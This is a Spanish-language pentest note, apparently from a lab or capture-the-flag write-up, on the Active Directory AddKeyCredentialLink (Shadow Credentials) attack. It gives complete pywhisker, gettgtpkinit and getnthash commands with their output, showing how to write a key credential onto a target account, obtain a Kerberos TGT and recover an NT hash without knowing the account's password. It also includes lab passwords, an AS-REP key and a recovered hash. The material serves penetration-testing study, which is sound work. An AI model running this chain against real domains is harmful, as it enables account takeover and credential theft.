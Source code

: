 # AddKeyCredentialLink Attack
## ¿Qué es?
- Es un ataque que permite a un atacante agregar credenciales a un usuario sin necesidad de conocer la contraseña.
- Se puede hacer con cualquier usuario, pero es más efectivo con usuarios de alto privilegio.

#### [Video](https://youtu.be/oyTEaYNs53w)

## Ataque explicado

![alt text](./AddKeyCredentialLink.png)

- En este ejemplo el usuario **marcus** puede agregar credenciales a la computadora **ZPH-SVRMGMT1.ZSM.LOCAL**.
- Entonces lo que podemos hacer es usar la herramienta pywhisker para agregar credenciales a un usuario sin necesidad de conocer la contraseña.
    - `python3 pywhisker.py -d "zsm.local" -u "marcus" -p '!QAZ2wsx' --target "ZPH-SVRMGMT1$" --action "add"`

```
... etc
--target "ZPH-SVRMGMT1$" --action "add"
[*] Searching for the target account
[*] Target user found: CN=ZPH-SVRMGMT1,CN=Computers,DC=zsm,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 65727581-ddcd-d67a-efb2-b30390b73d68
[*] Updating the msDS-KeyCredentialLink attribute of ZPH-SVRMGMT1$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 3cwbk8w6.pfx
[+] PFX exportiert nach: 3cwbk8w6.pfx
[i] Passwort für PFX: LlnaSQgj2Xgivmptjc7S
[+] Saved PFX (#PKCS12) certificate & key at path: 3cwbk8w6.pfx
[*] Must be used with password: LlnaSQgj2Xgivmptjc7S
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

- Importante la contraseña: **LlnaSQgj2Xgivmptjc7S**

- Luego con la otra herramienta PKINITtools podemos obtener un TGT.
    - `python3 gettgtpkinit.py -cert-pem key_cert.pem -key-pem key_priv.pem DOMAIN/USER`
    - en este caso sería: `python3 gettgtpkinit.py -cert-pem 3cwbk8w6.pem -key-pem 3cwbk8w6.key ZSM.LOCAL/marcus cache.ccache`
- Después hay que exportar el ticket: `export KRB5CCNAME=$PWD/cache.ccache`
- Fijamos que esté cargado con `klist`

```bash
┌──(kali㉿kali)-[~/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pem /home/kali/Desktop/boxes/certified/xBWiCOIx_cert.pem -key-pem /home/kali/Desktop/boxes/certified/xBWiCOIx_priv.pem CERTIFIED.HTB/MANAGEMENT_SVC management_svc.ccache
2025-04-09 20:22:14,587 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-09 20:22:14,594 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-09 20:22:36,051 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-09 20:22:36,051 minikerberos INFO     4de618e5fea336c8dbd69b96766e6a9c183b924f4880652b1662841d6fc7ef95
INFO:minikerberos:4de618e5fea336c8dbd69b96766e6a9c183b924f4880652b1662841d6fc7ef95
2025-04-09 20:22:36,053 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

``` 


## Conseguir NT hash del usuario
- El comando anterior nos tuvo que haber dado un as-rep hash.
- Con este hash podemos solicitar con getnthash.py el NT.
- `python3 getnthash.py -key AS-REP-ENCRYPTION-KEY DOMAIN/USER`
- El as-rep encryption key es el que nos dio el comando anterior.
- Y esto te va a dar el NT-HASH recuperado.


```bash

┌──(kali㉿kali)-[~/PKINITtools]
└─$ python3 ./getnthash.py -key 4de618e5fea336c8dbd69b96766e6a9c183b924f4880652b1662841d6fc7ef95 CERTIFIED.HTB/MANAGEMENT_SVC
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
                                                                                                                       
``` 